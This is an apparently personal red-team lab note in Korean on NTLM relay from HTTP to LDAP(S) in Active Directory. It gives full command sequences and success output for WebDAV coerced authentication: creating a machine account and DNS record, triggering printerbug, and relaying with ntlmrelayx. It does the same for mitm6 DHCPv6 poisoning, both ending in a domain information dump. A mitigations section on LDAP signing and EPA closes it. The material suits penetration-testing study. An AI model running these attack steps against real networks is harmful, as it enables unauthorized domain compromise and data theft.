 # HTTP to LDAP

HTTP to LDAP(S) 는 LDAP Signing 설정에 있어서 좀 더 자유로운 편이기 때문에 자주 사용되는 릴레이 공격이다. HTTP 트래픽을 받아올 때는 MITM6를 통한 DHCPv6 포이즈닝 혹은 Webdav 서비스를 이용한 강제 인증 (Petitpotam, Print Spooler) 등을 이용한다.&#x20;

* HTTP -> LDAP: LDAP Signing Disabled/Enabled 공격가능.  Required 일 시 공격 불가능.&#x20;
* HTTP -> LDAPS: LDAP Signing Disabled/Enabled/Required 모두 공격 가능. EPA (Extended Protection for Authentication) 사용시 공격 불가능.

HTTP to LDAP(S) 에는 크게 두 가지 공격 방식이 있다.&#x20;

1. Webdav + 강제인증: 타겟 서버가 Webdav 서비스를 실행중일 때 강제 인증을 통해 Webdav 서비스로부터 인증 트래픽을 받아낸 뒤, 이를 릴레이한다.&#x20;
2. MITM6: 타겟 서버가 DHCPv6 에 취약하다면  ipv6 DNS 서버를 스푸핑 한 뒤, ipv6 관련된 트래픽을 공격자 서버로 보낸다. 그 뒤, 이 트래픽을 릴레이한다.&#x20;

\#1 번의 경우 도메인 유저 맥락이 필요하기 때문에 도메인 장악 보다는 Webdav 호스트의 LDAP 특성을 조작해 장악하는 방식으로, 횡적 이동에 자주 사용된다.&#x20;

\#2 번의 경우 아무런 유저 계정 정보없이 머신 계정 생성 및 LDAP 정보 덤프가 가능하기 때문에 도메인 진입에 자주 사용된다.&#x20;

### 1. Webdav 강제 인증

Webdav 강제 인증에서는 강제 인증을 통해서 Webdav 서비스가 공격자에게 HTTP 트래픽을 보내도록 해야한다. 이를 위해서는 피해자공서버가격자의 IP 주소가 아닌 DNS 이름으로 트래픽을 보내도록 해야한다.&#x20;

때문에 공격자 서버의 DNS 엔트리를 생성해야한다. 이를 위해선 SPN 이 설정되어 있는 머신 계정이 필요하다.&#x20;

```
# 1. Webdav 확인 
webclientservicescanner choi.local/low:'Password123!'@192.168.40.0/24

# 2. 공격자 머신 계정 생성 
impacket-addcomputer choi.local/low:'Password123!' -dc-ip 192.168.40.150

[*] Successfully added machine account DESKTOP-405ONBSD$ with password MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk.

# 3. 공격자 머신 계정의 DNS 엔트리 생성 - 공격자 서버의 IP 주소 지정 (192.168.40.132)
python3 dnstool.py -u choi.local\\'DESKTOP-405ONBSD$' -p 'MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk' -a add -r relayx -d 192.168.40.132 ldaps://192.168.40.150

# 4. Webdav + Printerbug 강제 인증 
python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 kali@80/choiredteam 

# 5. ntlmrelayx 를 이용해 LDAP 정보 덤프
./ntlmrelayx.py -t ldaps://192.168.40.150 --no-da --no-acl -smb2support --remove-mic --no-validate-priv

[*] HTTPD(80): Authenticating against ldaps://192.168.40.150 as / SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!

# 6. 공격 완료 후 머신 계정 및 DNS 엔트리 삭제 - 도메인 관리자 권한 필요 
impacket-addcomputer -delete choi.local/Administrator:'Password123!' -computer-name 'DESKTOP-405ONBSD$'
python3 dnstool.py -u choi.local\\'DESKTOP-405ONBSD$' -p 'MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk' -a remove -r relayx -d 192.168.40.132 ldaps://192.168.40.150
```



### 2. MITM6  &#x20;

```
# 1. MITM6 세팅 
python3 mitm6.py -d <도메인> --ignore-nofqdn

# 1-1. 특정 호스트만 화이트리스트 처리 후 mitm6 공격 
python3 mitm6.py -d <도메인> --ignore-nofqdn -hw <호스트 FQDN>
python3 mitm6.py -d choi.local --ignore-nofqdn -hw wkstn01.choi.local

# 2. ntlmrelayx 세팅 
python3 ntlmrelayx.py -t ldap://<ip> -wh <wpad-이름-아무거나> -6 --no-da --no-acl
python3 ntlmrelayx.py -t ldap://192.168.40.150 -wh choipad -6 --no-da --no-acl

# ntlmrelayx 공격 결과 
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldap://192.168.40.150
[*] HTTPD(80): Authenticating against ldap://192.168.40.150 as CHOI/ADMINISTRATOR SUCCEED
[*] Domain info dumped into lootdir!

```

ntlmrelayx 의 기본적인 LDAP 공격은 도메인 어드민 유저를 생성한다거나 ACL 공격을 함부로 진행하는 등의 고객사 네트워크에 사용하기엔 좀 위험한 공격들이 있다. 따라서 `--no-da` 와 `--no-acl` 등의 플래그를 이용해서 기본 공격들을 진행하지 않는다.&#x20;

위 실습에서는 오로지 도메인 정보만 덤프하는 아주 기본적인 공격을 진행했다. 사실상 BloodHound 를 실행한 것과 같은 공격이다.&#x20;



### 대응 방안&#x20;

* HTTP -> LDAP: Webdav 가 필요 없는 서버들은 Webdav를 비활성화 시킨다.&#x20;
* HTTP -> LDAP: LDAP Signing을 Required 로 설정한다. `(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies >  Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정
* HTTP -> LDAPS: Extended Protection for Authentication (EPA) 를 설정한다.&#x20;
  * IIS > 왼쪽의 Sites 에서 EPA 를 설정할 사이트 ("a") 찾기 > Authentication > Windows Authentication Enable  > Windows Authentication Advanced Settings > Extended Protection : REQUIRED 로 설정&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



### MISC&#x20;

* DHCPv6 포이즈닝 관련 테스트를 할때는 nic을 껐다 켰다 하는게 제일 빠른 것 같다.&#x20;
* wpad 관련된 공격에서는 컴퓨터를 재부팅하거나 재로그인 하는 것이 도움될 때가 있다.
* Webdav 강제 인증 공격에서는 실제 공격자의 DNS 엔트리가 필요하다. 만약 공격자 전용 리눅스 VM 이라면 add-computer + dnstool 로 머신 계정 생성 + DNS 엔트리를 머신계정과 공격자 VM으로 묶어준다 (relayx.choi.local == 192.168.40.132).&#x20;
  * 만약 이미 윈도우 호스트 중 한 대를 장악한 공격자라면 머신 계정을 생성할 필요도, DNS 엔트리를 바꿀 필요도 없다. 그저 장악한 호스트로 Webdav 강제 인증을 보내주기만 하면 된다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://github.com/Hackndo/WebclientServiceScanner" %}

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}
